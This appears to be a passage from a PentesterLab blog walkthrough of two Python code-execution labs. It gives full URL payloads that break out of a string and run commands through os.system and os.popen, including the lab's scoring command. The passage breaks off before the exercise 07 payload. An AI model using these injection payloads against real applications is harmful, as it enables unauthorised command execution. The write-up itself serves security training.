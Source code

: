 ```bash
`"%2bstr(True)%2b"test`
```

The fact that both `str()` and `True`
are available give us a pretty good chance that Python is used. For the
rest of the challenge, we will put our payload inside the call to `str()`.

Now, we want to get to code execution. We can try to use `os.system('id')` for example.

We can see a `0` coming back in the response. This shows that the command was executed successfully. If you try an invalid command like `hacker`, you will get `32512` meaning that the process returned `127` (since the command is not found).

It may also be valuable to get the value returned by the command. To do this, you can use: `os.popen('[CMD]').read()` instead of `os.system('[CMD]')`.

Finally, by changing the call to `id` to the `/usr/local/bin/score UUID` command, you should be able to score this exercise.

we do as above:

we inject the following payload into the name endpoint:

```http
https://ptl-c18cb0a49058-98a7e26a5977.libcurl.me/hello/hacker%22%2bstr(os.system('id'))%2b%22
```

and got the following response:

![1694111670377.png](https://blog.cyb3rguru.tech/posts/pentesterlab/cmd_pentesterlab/images/1694111670377.png)

we try to get the system id and got 0 as response

we then solve the lab by injecting our uuid:

```http
https://ptl-c18cb0a49058-98a7e26a5977.libcurl.me/hello/hacker%22%2bstr(os.system('/usr/local/bin/score%208e9cc44e-938a-4a52-9261-618553edda92'))%2b%22
```

we send this payload and the lab reflect that it's solved 🎉️

# Code Execution 07

This exercise is one of our challenges on Code Execution

![1694111862653.png](https://blog.cyb3rguru.tech/posts/pentesterlab/cmd_pentesterlab/images/1694111862653.png)

we solve this challenge as we solved the previous lab 6;

**Highlight of the chall**

In the previous challenge, we made things a bit easier by importing `os` in the vulnerable application. However, we didn't for this challenge.

If we try to use `os.system('id')` for example. we get an error message.

This is likely due to the fact that the `os` module (that we need to access `system`) is not loaded. We can use the following syntax to load and run the `system` function:
